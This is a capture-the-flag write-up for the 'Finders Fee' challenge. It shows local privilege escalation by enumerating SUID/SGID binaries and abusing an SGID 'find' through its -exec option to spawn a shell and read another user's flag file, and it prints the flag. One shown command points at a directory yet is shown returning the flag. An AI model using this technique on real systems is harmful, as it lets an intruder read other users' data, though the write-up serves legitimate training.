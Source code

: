 ## Finders Fee
`ssh -p PORT user@challenge.ctf.games`
**Escalate your privileges and uncover the `flag.txt` in the `finder` user's home directory.**
So we want to obtain `/home/finder/flag.txt`.
Once connected we quickly see there is very limited functionality of the environment, which can make it easier or more difficult. Basic steps usually involve investigating programs and processes that the user can use, potentially running with another user privileges. Sudo is not present for `sudo -l` checks, and `ps aux` returns nothing as well.

Another great way to enumerate is searching the file system for binaries executing with SUID and SGID set, indicating *possible* leverage of another user. Coincidentally, the `find` function is how you can achieve this, and is available as user. It also matches the overall theme of *finding* something.
```sh
$ find / -perm -2000 -type f 2>/dev/null
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd
/usr/bin/chage
/usr/bin/expiry
/usr/bin/find
/usr/bin/ssh-agent
$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
```
We can then use `ls -la <binary>` to check the privileges when executed. Going with the the **find** theme, lets check it.
```sh
 $ ls -la /usr/bin/find
-rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```
Which tells us `find` is executing with the user `finder` permissions. This is good news, but we need to check if there are exploitation's available utilizing the `find` command. A great resource is [GTFOBins](https://gtfobins.github.io/gtfobins/find/). 
Looking at the examples, it appears as though command execution can be used within the arguments passed to `find`.  For example:
```sh
$ find . -exec /bin/sh \; -quit
```
This will spawn a shell, but because perm is 2000 we don't inherit the groups permissions, so we are still spawning a shell as user. But, we can also pass other commands instead of /bin/sh. Perhaps we can try to read the flag.txt by modifying the command like so:
```sh
$ find . -exec cat /home/finder/ \; -quit
flag{5da1de289823cfc200adf91d6536d914}
```
Success! Read further into SUID and SGID exploitation for more details.
